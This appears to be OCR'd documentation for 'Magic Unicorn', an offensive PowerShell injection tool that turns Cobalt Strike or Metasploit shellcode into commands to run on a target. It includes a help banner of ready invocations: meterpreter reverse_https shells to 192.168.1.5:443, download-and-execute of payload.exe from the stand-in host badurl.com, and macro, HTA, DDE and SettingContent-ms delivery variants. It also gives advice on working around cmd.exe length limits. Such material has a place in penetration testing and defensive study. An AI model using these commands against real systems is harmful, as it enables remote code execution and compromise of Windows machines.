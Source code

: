  The export code will look something like this:
 
 * length: 836 bytes */
 byte[] buf = new byte[836] { 0xfc, etc
 
 Next, for usage:
 
 python unicorn.py cobalt_strike_file.cs cs
 
 The cs argument tells Unicorn that you want to use the Cobalt strike functionality. The rest is Magic.
 
 Next simply copy the powershell command to something you have the ability for remote command execution.
 
 NOTE: THE FILE MUST BE EXPORTED IN THE C# (CS) FORMAT WITHIN COBALT STRIKE TO PARSE PROPERLY.
 
 There are some caveats with this attack. Note that the payload size will be a little over 14k+ in byte
 size. That means that from a command line argument perspective if you copy and paste you will hit the
 8191 character size restriction (hardcoded into cmd.exe). If you are launching directly from cmd.exe
 this is an issue, however if you are launching directly from PowerShell or other normal applications
 this is a non-problem.
 
 A couple examples here, wscript.shell and powershell uses USHORT - 65535 / 2 = 32767 size limit:
 
 typedef struct _UNICODE_STRING {
     USHORT Length;
     USHORT MaximumLength;
     PWSTR  Buffer;
 } UNICODE_STRING;
 
 For this attack if you are launching directly from powershell, VBSCript (WSCRIPT.SHELL), there is no
 issues.
 
 [*******************************************************************************************************]
     
 -------------------- Magic Unicorn Attack Vector v3.12 -----------------------------
 
 Native x86 powershell injection attacks on any Windows platform.
 Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
 Twitter: @TrustedSec, @HackingDave
 Credits: Matthew Graeber, Justin Elze, Chris Gates
 
 Happy Magic Unicorns.
 
 Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
 PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
 PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
 PS Down/Exec Macro: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro
 Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
 Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
 HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
 HTA SettingContent-ms Metasploit: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
 HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
 HTA Example SettingContent-ms: python unicorn.py <cobalt_strike_file.cs cs ms
 HTA Example SettingContent-ms: python unicorn.py <patth_to_shellcode.txt>: shellcode ms
 DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
 CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
 Custom PS1 Example: python unicorn.py <path to ps1 file>
 Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
 Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
 Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00 or metasploit)